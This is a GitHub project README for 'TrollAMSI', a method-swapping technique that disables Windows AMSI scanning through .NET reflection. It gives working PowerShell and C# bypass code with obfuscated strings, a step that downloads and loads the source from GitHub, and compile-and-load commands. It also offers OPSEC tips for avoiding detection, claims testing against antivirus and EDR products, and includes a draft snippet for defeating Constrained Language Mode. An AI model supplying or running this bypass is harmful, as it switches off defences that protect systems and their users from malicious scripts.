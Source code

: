 # TrollAMSI
This new technique is called "Reflection with method swapping". Opens doors for other techniques such as ETW and CLM possibly(?).
Uses reflection to get a handle to the "ScanContent" method and updates it to point to a method we control. 

## Inspiration
https://practicalsecurityanalytics.com/new-amsi-bypass-using-clr-hooking/

## Benefits
- No P/Invoke or win32 API calls used such as VirtualProtect hence WAY more opsec safe
- No amsi.dll patching
  
## Usage 

### Raw Powershell
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
$o = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent
$t = [TrollAMSI].GetMethods() | Where-Object Name -eq 'M'
[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($t.MethodHandle)
[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($o.MethodHandle)
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]$t.MethodHandle.Value + [long]8)),0, [long]$o.MethodHandle.Value + [long]8,1)
```

### Add-Type
```
>$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI/main/TrollAMSI.cs).content
>Add-Type $code
>[TrollAMSI]::troll()
```
### Compiled x64
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll TrollAMSI.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[TrollAMSI]::troll()
```

## OPSEC
- STATIC: obfuscate "AmsiUtils" and "ScanContent" maybe?
- DYNAMIC: Nothing much really. Note that Add-Type method will leave disk artifacts, whereas hosting the compiled DLL on a webserver and using Load() is completely in memory

## TESTING
- Tested on win defender, 2 AV and 1 EDR 
- Eitherway security products pay greater emphasis to amsi.dll and the relevant winapi calls for byte patching which we do not touch
  
## Wishlist
- same technique should/could be applicable to bypass
  - ETW write
  - We can apply the same trick on CLM enforcement
   ```
          public static void Troll()
        {
            MethodInfo o = typeof(System.Management.Automation.Alignment).Assembly.GetType("System.Management.Automation.Security.SystemPolicy").GetMethod("GetS" + "ystemLoc" + "kdow" + "nPolicy", System.Reflection.BindingFlags.Public | System.Reflection.BindingFlags.Static);
            MethodInfo t = typeof("<Insert Class here>").GetMethod("M", BindingFlags.Static | BindingFlags.NonPublic);
            RuntimeHelpers.PrepareMethod(o.MethodHandle);
            RuntimeHelpers.PrepareMethod(t.MethodHandle);
            Marshal.Copy(new IntPtr[] { Marshal.ReadIntPtr(t.MethodHandle.Value + 8) }, 0, o.MethodHandle.Value + 8, 1);
        }
        private static int M() { return 0; }
  ```
  - maybe there's more?
  
## Disclaimer
Should only be used for educational purposes!
